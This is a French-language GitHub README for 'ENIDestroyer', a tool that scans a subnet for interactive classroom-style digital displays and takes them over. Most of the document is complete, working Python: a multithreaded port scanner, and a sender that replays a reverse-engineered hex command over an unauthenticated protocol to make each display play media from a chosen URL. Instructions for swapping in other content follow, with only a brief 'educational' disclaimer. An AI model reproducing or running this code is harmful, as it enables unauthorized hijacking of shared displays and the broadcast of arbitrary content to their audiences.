 # 🖥️ ENIDestroyer

## Introduction
**ENIDestroyer** est un outil d'analyse réseau et de contrôle à distance spécialisé dans la connexion simultanée aux Écrans Numériques Interactifs (ENI). Ce programme permet de scanner un réseau local, d'identifier les ENI accessibles, puis d'établir des connexions pour diffuser du contenu média.

## ⚠️ Avertissement
Ce programme est fourni à des fins éducatives uniquement. L'auteur décline toute responsabilité quant à son utilisation. Cet outil est :
- Très spécifique dans son fonctionnement
- Peu flexible
- À utiliser uniquement dans des environnements contrôlés et avec autorisation

## 🔧 Prérequis
- Python 3.x
- Un serveur web local pour héberger les médias

## 📋 Installation
```bash
# Cloner le dépôt
git clone https://github.com/Arthur-91140/ENIDestroyer.git

# Accéder au répertoire
cd ENIDestroyer
```

## 🚀 Utilisation

### 1. Configuration
- Configurez le sous-réseau à analyser (par défaut: `172.16.30.0/24`)
- Préparez un serveur web contenant les médias à diffuser
- Définissez l'URL du média dans le script principal

### 2. Lancement

```bash
python LAN-WLAN-Scan.py
```
Puis...
```bash
python Request-Sender.py
```

### 3. Options d'optimisation
- Pour accélérer le processus, vous pouvez sauter l'étape de scan en important directement un fichier `ipv.csv` généré par Nmap
- Format attendu pour `ipv.csv`:
  ```
  IP,Open Ports
  172.16.30.50,20121
  172.16.30.51,"20121, 20194"
  ```

## 🛠️ Code source et fonctionnalités

### Module de scan réseau (`LAN-WLAN-Scan.py`)

```python
import socket
import csv
import ipaddress
from concurrent.futures import ThreadPoolExecutor

def scan_port(ip_port_tuple):
    ip, port = ip_port_tuple
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            result = sock.connect_ex((ip, port))
            if result == 0:
                return ip, port
    except socket.error:
        return None

def scan_ports(ip, ports):
    ip_port_tuples = [(ip, port) for port in ports]
    
    with ThreadPoolExecutor(max_workers=20) as executor:
        results = list(executor.map(scan_port, ip_port_tuples))
    
    open_ports = [port for result in results if result for ip, port in [result]]
    return open_ports

def main():
    subnet = "172.16.30.0/24"
    ports_to_scan = [20121, 20194]
    output_file = "ipv.csv"
    
    with open(output_file, 'w', newline='') as csvfile:
        fieldnames = ['IP', 'Open Ports']
        writer = csv.DictWriter(csvfile, fieldnames=fieldnames)
        writer.writeheader()
        network = ipaddress.ip_network(subnet)
        for ip in network.hosts():
            ip_str = str(ip)
            print(f"Scanning IP: {ip_str}...")
            open_ports = scan_ports(ip_str, ports_to_scan)
            if open_ports:
                writer.writerow({'IP': ip_str, 'Open Ports': ', '.join(map(str, open_ports))})
                print(f"Found open ports {', '.join(map(str, open_ports))} on {ip_str}")
    print("Scan completed. Results saved in ipv.csv")

if __name__ == "__main__":
    main()
```

### Module de connexion ENI (`Request-Sender.py`)

```python
import socket

# Définir les détails de la connexion
host = '172.16.30.50'
port = 20121

# Créer une socket
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    # Se connecter au serveur
    s.connect((host, port))
    
    # Définir la nouvelle requête en tant que chaîne hexadécimale lisible
    hex_request = "257c770600000000000004d2010000000780000004384465736b74706f702d5635374c31305309290000342e352e35040d01000400000004640000040000000400000004004c01002e4a01007765622d3e687474703a2f2f3137322e31362e33302e392f566964656f2f47616d65706c61792e6d7034300400000004000000044a0006044c01020421010004010101"
    request = bytes.fromhex(hex_request)
    
    # Envoyer la nouvelle requête
    s.sendall(request)
    
    # Recevoir la réponse du serveur (si nécessaire)
    response = s.recv(1024)
    print("Réponse du serveur:", response)
```

## 📊 Fonctionnement détaillé

1. **Scan réseau** (`LAN-WLAN-Scan.py`):
   - Parcourt toutes les adresses IP du sous-réseau spécifié (`172.16.30.0/24` par défaut)
   - Vérifie les ports 20121 et 20194 pour chaque adresse IP
   - Enregistre les résultats dans un fichier CSV (`ipv.csv`)
   - Utilise `ThreadPoolExecutor` pour effectuer plusieurs scans en parallèle

2. **Connexion aux ENI** (`Request-Sender.py`):
   - Établit une connexion TCP à l'IP et au port spécifiés
   - Envoie une commande formatée en hexadécimal pour contrôler l'ENI
   - La commande contient des informations sur le média à diffuser
   - Capture la réponse du serveur pour vérification

3. **Analyse de la commande hexadécimale**:
   - `257c7706...` : Séquence d'en-tête du protocole
   - `...7765622d3e687474703a2f2f3137322e31362e33302e392f566964656f2f47616d65706c61792e6d7034...` : Contient l'URL du média encodée
   - Le reste de la séquence contient des paramètres de configuration

## 🔍 Explications supplémentaires

### Détail du scanner réseau
Le scanner utilise une approche multithreading pour accélérer les scans:
- Chaque IP est testée pour vérifier si les ports spécifiés sont ouverts
- Les résultats sont enregistrés uniquement si au moins un port est ouvert
- Le format CSV permet une exploitation facile des résultats

### Détail de la connexion ENI
La connexion utilise un protocole propriétaire:
- La socket TCP est créée et connectée à l'ENI
- La commande hexadécimale est envoyée pour configurer l'affichage
- Changez l'URL dans la commande hexadécimale pour diffuser un média différent

## 🛡️ Sécurité et bonnes pratiques
- Utilisez ce programme uniquement sur des réseaux dont vous êtes propriétaire
- Vérifiez toujours les autorisations avant de scanner un réseau
- Assurez-vous que le contenu diffusé est approprié et légal
- Limitez l'utilisation aux environnements de test ou de démonstration

## 📚 Références
- Documentation des protocoles ENI
- Rétro-Ingénierie par scan réseau intensif

## Authors
- [Arthur Pruvost Rivière](https://github.com/Arthur-91140) 
